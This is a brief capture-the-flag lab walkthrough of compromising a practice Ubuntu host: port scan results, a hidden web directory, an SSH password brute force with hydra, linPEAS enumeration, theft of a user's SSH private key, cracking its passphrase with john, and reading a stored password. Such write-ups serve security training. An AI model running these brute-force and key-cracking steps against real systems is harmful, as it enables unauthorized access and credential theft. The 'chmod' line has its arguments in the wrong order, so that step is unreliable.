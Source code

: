 # BASIC INFO

```
export IP=10.10.60.20

open port:
	22/tcp OpenSSH 7.2p2 Ubuntu
	80/tcp Apache httpd 2.4.18
	139/tcp netbios-ssn Samba smbd 3.X -4.X
	445/tcp netbios-ssn Samba smbd 4.3.11-Ubuntu

```

# DIRBUSTER


> hidden dir on http:
>> /development


# CREDENTIALS


> user found:
>> kay
>> jan

```
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.174.22

```
> password found:
>> jan: armando

# ENUMERATION

```
scp /opt/linPeas/linPeas.sh jan@10.10.60.20:/dev/shm
./linPeas | tee linlog.txt

```

id_rsa found in /home/kay/.ssh/id_rsa\
download with scp

# BRUTE FORCE ID_RSA


id_rsa downloaded is protected by password

```
/usr/share/john/ssh2john.py id_rsa > id_rsa_crack
john id_rsa_crack --wordlist=/usr/share/wordlists/rockyou.txt

```
password found: beeswax

# SSH INTO MACHINE WITH USER KAY

```
chmod id_rsa 600				
ssh -i id_rsa kay@10.10.60.20
cat pass.bak

```
ssh will only use file that is only readable by root (-rw-------)\
heresareallystrongpasswordthatfollowsthepasswordpolicy$$
